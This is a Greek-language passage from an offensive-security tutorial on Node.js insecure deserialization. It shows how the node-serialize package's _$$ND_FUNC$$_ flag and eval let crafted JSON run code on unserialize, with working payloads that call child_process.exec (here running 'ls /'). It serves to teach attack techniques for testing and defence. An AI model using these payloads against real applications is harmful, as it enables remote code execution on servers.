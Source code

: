 ### `__proto__` και `prototype` ρύπανση

Αν θέλετε να μάθετε για αυτή την τεχνική **ρίξτε μια ματιά στο παρακάτω σεμινάριο**:

{% content-ref url="nodejs-proto-prototype-pollution/" %}
[nodejs-proto-prototype-pollution](nodejs-proto-prototype-pollution/)
{% endcontent-ref %}

### [node-serialize](https://www.npmjs.com/package/node-serialize)

Αυτή η βιβλιοθήκη επιτρέπει την σειριοποίηση συναρτήσεων. Παράδειγμα:
```javascript
var y = {
"rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```
Το **σειριοποιημένο αντικείμενο** θα φαίνεται όπως:
```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```
Μπορείτε να δείτε στο παράδειγμα ότι όταν μια συνάρτηση είναι σειριοποιημένη, η σημαία `_$$ND_FUNC$$_` προστίθεται στο σειριοποιημένο αντικείμενο.

Μέσα στο αρχείο `node-serialize/lib/serialize.js` μπορείτε να βρείτε την ίδια σημαία και πώς ο κώδικας τη χρησιμοποιεί.

![](<../../.gitbook/assets/image (351).png>)

![](<../../.gitbook/assets/image (446).png>)

Όπως μπορείτε να δείτε στο τελευταίο κομμάτι κώδικα, **αν βρεθεί η σημαία** χρησιμοποιείται το `eval` για να αποσειριοποιήσει τη συνάρτηση, οπότε βασικά **η είσοδος του χρήστη χρησιμοποιείται μέσα στη συνάρτηση `eval`**.

Ωστόσο, **απλά σειριοποιώντας** μια συνάρτηση **δεν θα την εκτελέσει** καθώς θα ήταν απαραίτητο κάποιο μέρος του κώδικα να **καλεί το `y.rce`** στο παράδειγμά μας και αυτό είναι πολύ **απίθανο**.\
Ούτως ή άλλως, θα μπορούσατε απλά να **τροποποιήσετε το σειριοποιημένο αντικείμενο** **προσθέτοντας μερικές παρενθέσεις** ώστε να εκτελείται αυτόματα η σειριοποιημένη συνάρτηση όταν το αντικείμενο αποσειριοποιείται.\
Στο επόμενο κομμάτι κώδικα **προσέξτε την τελευταία παρένθεση** και πώς η συνάρτηση `unserialize` θα εκτελέσει αυτόματα τον κώδικα:
```javascript
var serialize = require('node-serialize');
var test = {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"};
serialize.unserialize(test);
```
Όπως αναφέρθηκε προηγουμένως, αυτή η βιβλιοθήκη θα πάρει τον κώδικα μετά το `_$$ND_FUNC$$_` και θα **εκτελέσει** αυτόν χρησιμοποιώντας το `eval`. Επομένως, για να **αυτοεκτελέσετε κώδικα** μπορείτε να **διαγράψετε το μέρος δημιουργίας της συνάρτησης** και την τελευταία παρένθεση και **να εκτελέσετε απλά μια JS oneliner** όπως στο παρακάτω παράδειγμα:
```javascript
var serialize = require('node-serialize');
var test = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) })"}';
serialize.unserialize(test);
```